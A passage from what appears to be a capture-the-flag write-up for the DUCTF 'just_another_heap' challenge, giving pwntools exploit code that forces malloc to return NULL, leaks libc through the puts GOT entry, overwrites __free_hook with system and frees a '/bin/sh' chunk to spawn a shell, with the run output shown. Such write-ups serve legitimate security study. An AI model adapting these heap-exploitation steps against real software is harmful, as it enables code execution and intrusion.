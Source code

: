 ```py

create(9, "A"*0xF, 0x10, 0, "B"*0xF, False, False)
create(2, "A"*0xF, 0xa, 0, b"/bin/sh\x00\n", False, False)
```

Now, we will force the malloc to return NULL then make the offset to the pointer of the last chunk[9] which we overwrite with GOT address of the puts, giving us a LIBC leak.

```py

create(0, "A"*0xF, memory_ptr_last_idx + (huge - memory_ptr_last_idx), memory_ptr_last_idx, p64(puts_got) + b"\n", False, False)

_list()

p.recvuntil("9: ")

libc.address = int.from_bytes(p.recvline(), byteorder="little") & 0xFFFFFFFFFFFF - libc.sym["puts"]
system = libc.sym["system"]
free_hook = libc.sym["__free_hook"]

log.info("Libc base @ " + hex(libc.address))
```

Now, doing the same, but this time we will force the malloc to again return the NULL and make the offset value to the address of the __free_hook.

```py

create(1, "A"*0xF, free_hook + (huge - free_hook), free_hook, p64(system) + b"\n", False, False)
```

Now, we just free the chunk 2 which had the /bin/sh string stored resulting in system("/bin/sh"):-

```py

forget(2)

p.interactive()
```

Run the exploit:-

```asm

vagrant@ubuntu-bionic:~/sharedFolder/CTFs/ductf$ python3 just_another_heap.py 
[*] '/home/vagrant/sharedFolder/CTFs/ductf/just_another_heap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/vagrant/sharedFolder/CTFs/ductf/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './just_another_heap': pid 1865
[*] Libc base @ 0x7f83be251000
[*] Switching to interactive mode
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$ 
[*] Interrupted
vagrant@ubuntu-bionic:~/sharedFolder/CTFs/ductf$ 
```


